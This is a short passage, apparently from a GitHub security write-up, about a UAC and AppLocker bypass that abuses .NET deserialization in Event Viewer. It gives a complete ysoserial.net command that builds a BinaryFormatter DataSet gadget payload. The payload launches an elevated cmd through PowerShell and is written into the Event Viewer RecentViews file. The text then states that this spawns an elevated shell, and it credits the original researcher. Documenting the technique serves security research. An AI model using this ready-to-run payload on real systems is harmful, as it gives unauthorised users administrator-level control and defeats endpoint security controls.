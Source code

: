 ```sh
ysoserial.exe --output=raw --gadget=DataSet --formatter=BinaryFormatter 
--command=powershell "start cmd -v runAs" --rawcmd > 
"C:\Users\wirel\AppData\Local\Microsoft\Event Viewer\RecentViews"
```


<img width="1269" alt="image" src="https://user-images.githubusercontent.com/12537739/174982518-abb03987-d299-4002-b932-654ccf7b911e.png">


We have just spawned an elevated command shell from a non-elevated Administrator perspective, bypassing UAC and Applocker.

# Credits

[Original founder Orange Tsai](https://twitter.com/orange_8361)

